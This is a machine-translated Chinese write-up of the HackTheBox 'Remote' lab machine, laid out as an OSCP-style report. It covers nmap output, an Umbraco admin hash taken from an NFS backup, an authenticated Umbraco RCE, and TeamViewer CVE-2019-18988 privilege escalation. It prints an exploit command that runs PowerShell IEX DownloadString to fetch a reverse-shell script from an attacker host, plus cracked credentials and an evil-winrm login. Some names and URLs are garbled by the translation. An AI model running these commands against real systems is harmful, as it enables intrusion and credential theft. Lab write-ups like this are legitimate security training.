 # 远程——OSCP 风格的黑客盒子制作

> 原文：<https://infosecwriteups.com/remote-hackthebox-writeup-oscp-style-1e35ed0f9951?source=collection_archive---------2----------------------->

## Remote 是一台简单难度的 windows 机器，上面有翁布拉科·RCE 和著名的 Teamviewer 的 CVE-2019–18988。一直想发表一篇 OSCP 风格的文章，花了一段时间。

![](img/cfd754a21c2f7e3ff1e94937a78fddcd.png)

**Offsec 的 PWK 示例报告**:[https://www . offensive-security . com/pwk-online/PWK-Example-Report-v1 . pdf](https://www.offensive-security.com/pwk-online/PWK-Example-Report-v1.pdf)

我在我的 OSCP 考试报告中使用了上面的示例模板，这个演练也将遵循相同的模板。

# 报告-渗透

评估的渗透测试部分重点关注获得对***远程***机器的访问权。在这次渗透测试中，Preetham 能够成功进入***远程***机器。

**被利用的漏洞:** Umbraco CMS —由经过身份验证的管理员远程执行代码

**系统易受攻击:** 10.10.10.180

**漏洞解释:** Umbraco CMS 在 xsltVisualise 功能中存在一个已验证的远程代码执行漏洞。Umbraco CMS 的凭据是通过装载包含 Umbraco.sdf 文件的 NFS 共享找到的，该文件是 SQL Server Compact Edition 文件。

【参考文献:[https://www.exploit-db.com/exploits/46153](https://www.exploit-db.com/exploits/46153)

[](https://github.com/noraj/Umbraco-RCE) [## 诺拉吉/翁布拉科-RCE

### Umbraco CMS 7.12.4 -(已验证)远程代码执行[packet storm][WLB-2020080012]$ python exploit . py-h…

github.com](https://github.com/noraj/Umbraco-RCE) 

**权限提升漏洞:**Teamviewer CVE-2019–18988 从注册表收集凭据。

**参考**:[https://whynotsecurity.com/blog/teamviewer/](https://whynotsecurity.com/blog/teamviewer/)

**漏洞修复**:将 Teamviewer 更新至最新版本

**严重性:**危急

# **信息收集**

## **完整 Nmap 扫描**

```
Nmap scan report for 10.10.10.180
Host is up (0.74s latency).PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp   open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Home - Acme Widgets
111/tcp  open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
2049/tcp open  mountd        1-3 (RPC #100005)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

有允许匿名访问的 FTP 和 Web 服务器，RPC，SMB 和 NFS 端口开放。Preetham 找到了 NFS 与`showmount`的共享出口列表，并挂载了`site_backups`共享。

![](img/b749d46b85cc0bacf4c87e08cabcffa1.png)![](img/1f808651bdda7f4115fd6aaab42f5bfe.png)

**Umbraco.sdf 文件**

![](img/761a2c5bc232383eafb29baa600daee0.png)

```
root@kali:~/htb/boxes/remote# strings Umbraco.sdf | grep admin                                                                                               Administratoradmindefaulten-US                                                                                                                               
Administratoradmindefaulten-USb22924d5-57de-468e-9df4-0961cf6aa30d                                                                                           
Administratoradminb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}en-USf8512f97-cab1-4a4b-a49f-0a2054c47a1d
adminadmin@htb.local***b8be16afba8c314ad33d812f22a04991b90e2aaa***{"hashAlgorithm":"SHA1"}admin@htb.localen-USfeb1a998-d3bf-406a-b30b-e269d7abdf50
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-US82756c26-4321-4d27-b429-1b5c7c4f882f
User "admin" <admin@htb.local>192.168.195.1User "admin" <admin@htb.local>umbraco/user/password/changepassword change
```

Preetham 获得了 SHA1 类型的 admin 账户 hash***(b 8 be 16 afba 8 c 314 ad 33d 812 f 22 a 04991 b 90 e 2 AAA)***。

## 破解哈希

![](img/e4cd96eb79f062b263652096976f3876.png)

普雷瑟姆以`***baconandcheese***`的身份获得了密码

## 远程代码执行

**参考**:【https://github.com/noraj/Umbraco-RCE】T2

![](img/2066409492a7129548254f5ded169bad.png)

## 反向外壳

Preetham 使用 h[ttps://github . com/samratashok/nishang/blob/master/shell/Invoke-powershelltcp . PS1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)获得了一个反向 shell。

**命令**

```
python3 exploit.py -u ‘admin@htb.local’ -p ‘baconandcheese’ -i ‘[http://10.10.10.180'](http://10.10.10.180') -c powershell.exe -a “IEX(New
-Object System.Net.WebClient).DownloadString(‘[http://10.10.14.42/shell.ps1'](http://10.10.14.42/shell.ps1'))"
```

![](img/a782038efe1c405287d4362de044eac3.png)

## User.txt 和 IP 地址

![](img/cf4dfd48287c850af6c059e9fa5915e1.png)

## 权限提升:Teamviewer CVE-2019–18988 从注册中心收集凭据

**参考**:[https://whynotsecurity.com/blog/teamviewer/](https://whynotsecurity.com/blog/teamviewer/)

Preetham 在枚举时发现计算机上安装了 Teamviewer。

![](img/a1a7f2c8d1f6dfa2a7f12d4610fb3324.png)

Preetham 通过执行以下操作发现 Teamviewer 的版本是 7。

![](img/dfccc11d09af2533c18c0a17e6bd46f6.png)

Preetham 通过在机器上执行 msfvenom 创建的恶意二进制文件获得了一个 meterpreter 外壳。

![](img/f9686916ea70b18d677a6faa7634c003.png)![](img/d656f3b558d8f0b9e71e9d98039c539b.png)![](img/057b24c9a0aec7452e8242ab8ceed58f.png)

Preetham 运行 Teamviewer MSF 模块，找到管理员的密码并使用 WinRM 登录。

![](img/aaf1b43e1ddcc9edda7a01a64e2f8424.png)

> **命令**:evil-winrm-I 10 . 10 . 10 . 180-u administrator-p '！' R3m0te！'

## Root.txt 和 ipconfig

![](img/60141b6f1403b7d822dc09453e80a848.png)